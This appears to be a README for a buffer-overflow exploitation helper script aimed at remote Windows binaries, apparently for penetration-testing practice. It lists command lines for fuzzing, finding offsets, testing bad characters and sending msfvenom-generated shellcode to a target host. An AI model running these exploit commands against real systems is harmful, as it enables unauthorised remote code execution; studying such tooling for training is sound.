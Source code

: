 # Buffer-Overflow

## ig-buffer-overflow.py
* Help functions for exploting buffer overflow vulnerabilities in a Windows remote binary. 
* Tested with: Vanilla Buffer Overflow, Structured Exception Handling Overwrite (SEH Overwrite), Egg Hunting.

## Usage

test - Sends simple string (AAAAA) with buffer size and buffer head for memory test
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/'
```

cyclic - Sends cyclic string to help identify memory positions
```
./ig-buffer-overflow.py -m cyclic --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/'
```

write - Writes hex value to buffer offset
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809
```

write - Write badchars (before or after offset content) for badchar verification
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --badchar=after --exclude=000a
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --badchar=before --exclude=000a --reversejmp=800
```

exploit - Sends malicious payload via buffer overflow
```
./ig-buffer-overflow.py -m exploit --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --reversejmp=800 --shellcode=payload --nops=10
```

## Parameters:
* --help|-h	: Show script usage.
* --norec|-n	: Don't wait for receive message after connect.
* --mode|-m	: Script mode (test|cyclic|write|exploit).
* --rhost		: Remote host IP.
* --rport		: Remote host port.
* --buffsize	: Amount of variable bytes to send.
* --buffhead	: Static buffer string set at the beginning of the buffer.
  * Is usually the crash string. Size is considered in buffSize calc.
* --offset	: Place in buffer where content can be added.
* --hexcontent	: Hex string to add at the offset position.
  * Can be considered as big endian (default) or little endian (will be reversed).
  * Use 'g' or 'l' to delimit the order. Examples:
    * 'g01020304l05060708' --> will send '0102030408070605'
    * '01020304' --> will send '01020304'
* --badchar	: Adds bad chars before (before) or after (after) the content. Used for bad char testing.
* --exclude	: List of chars (formatted as hex string) to be excluded from badchar list.
* --reversejmp	: Size in bytes to jump before the content to inject bad chars or the shell code.
* --shellcode	: Hex shell code file generated using msfvenom. Do NOT include the .py extension in the parameter.
  * Example: msfvenom -p windows/exec cmd=calc.exe -b '\x00' -f python EXITFUNC=thread -o payload
* --nops		: Amount of nops to add before and after the shell code. Default is 0.

## Vanilla Buffer Overflow example

TODO

## SEH Overwrite example

TODO

## Egg Hunting example

TODO
